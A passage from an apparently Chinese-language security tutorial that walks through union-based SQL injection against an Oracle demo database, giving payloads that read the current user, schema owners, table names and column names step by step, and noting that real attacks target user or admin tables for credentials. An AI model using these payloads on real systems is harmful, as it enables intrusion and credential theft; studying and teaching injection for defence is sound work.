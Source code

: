 ![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlHv8roYYJ4c0vy7f5slNocwAvBMCibtyXDSloP5WJj4UScTvy0BpP47Q/640?wx_fmt=png)

注意，这里数据库中名称设置为 Varchar 字符串类型，如果填写数字 2 会报错。我们需要找到字符串类型来显示后续联合注入输出的结果。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlCVLhiaRfwhwGag7pO3iat6zo0SpmLuujhibWWXX8XrjCtm84KLY4Fpibjg/640?wx_fmt=png)

**第五步，数据库信息收集。**  
通过 sys_context 函数查询当前用户的连接信息，并显示在第二列的数据中。

```
-1 union select 1, (select sys_context('userenv','current_user') from dual),null,null from dual
```

当前数据库的用户信息如下图所示：

*   EASTMOUNT
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlQ3qwrd1fnnZHaRa5u6eEpiahXqvrdOpD2j9pt1PASKmiaX5ibjbv4MRsQ/640?wx_fmt=png)

**第六步，爆数据库名。**  
数据库名可能很多，这里通过 rownum=1 限制显示一条内容。

```
-1 union select 1, (select owner from all_tables where rownum=1),null,null from dual--
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlXlkwfEPv0Orh29sicvZQgD2kw3UoJPaQ0CTh37Yeu5icu9NObKRSa9DQ/640?wx_fmt=png)

**第七步，获取当前用户下的表。**  
从指定数据库中获取表信息。

```
-1 union select 1, (select table_name from user_tables where rownum=1 ),null,null from dual--
```

输出结果如下图所示，真实环境中我们通常需要找到用户表或管理员表，从而获取用户名及密码进行后续渗透。

*   DEMO
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGl381vnt8paURQeT7MxqEHQEARIJn6Mz2EIMlicLp4ukD5ame0w9hKY8A/640?wx_fmt=png)

**第八步，获取当前数据库下的字段名。**  
获取数据库表下面的字段内容，表的名称为 “DEMO”。

```
-1 union select 1, (select column_name from user_tab_columns where table_name='DEMO' and rownum=1),null,null from dual--
```

获取 DEMO 表格的第一个一段，如下图所示为 ID。

*   ID
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGljPK5X06BNhqrYqjpZIEzP6ucOIn6ZjiaoLcRWbyiavodxe0cyqicWdZIg/640?wx_fmt=png)

如果我们想获取其他字段怎么办呢？通过将查询出的结果放到 not in 中即可，或者使用不等于（<>）。
